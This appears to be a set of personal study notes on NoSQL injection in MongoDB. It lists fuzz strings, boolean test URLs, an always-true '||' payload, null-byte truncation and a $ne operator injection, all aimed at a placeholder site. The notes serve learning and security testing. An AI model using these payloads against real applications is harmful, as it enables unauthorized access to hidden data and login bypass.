 -  NoSQL syntax injection - break nosql syntax and execute query 
-  Operator injection - abuse nosql operatoors like $where
  


## NoSQL syntax injection

- like sql injection in queries `break the query syntax` and exploit

#### Detecting syntax injection in MongoDB


- test each input by submitting fuzz strings and special characters

#### FUZZ STRINGS

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```


#### TESTING

https://insecure-website.com/product/lookup?category=fizzy

in sever the query is handled as 

``this.category == 'fizzy'``

- we handle fizzy as input 

- now fuzz the input with the *FUZZ STRINGS*

- check the response and analyse

- determine which character is processed like single quote or double quote

``this.category == '''``

`this.category == '\''`

- now we check for boolean influence (eg to bypass or data retrieval)


- for false output expectation
`https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x`
- here no categories are displayed since query is false ,

- for true 
`https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x`
- suggests that the false condition impacts the query logic
- here the category fizzy displayed so ==boolean influence==


#### Overriding existing conditions

- use or `||` operator like output always returns true

`https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1`

- here the server query seems ,

`this.category == 'fizzy'||'1'=='1'`

- thus existing condition overrides and displays all categories


- ==MongoDB may ignore all characters after a null character==

- if server query is 

``this.category == 'fizzy' && this.released == 1``

after null character injection in fizzy as input


`this.category == 'fizzy'\u0000' && this.released == 1`

this would display unreleased object



## operator injection


- operator provide ways to specify conditions to fetch data from db 

- $where, $ne , $in , $regex https://chatgpt.com/share/67641e0a-8aec-800a-8b66-c2ec7950455c


### Injecting into query operators

- if the server query is
`{"username":"wiener"}

here we can control wiener input

`{"username":{"$ne":"invalid"}}` ==> username != invalid which is true


2) `username=wiener` becomes `username[$ne]=invalid`

















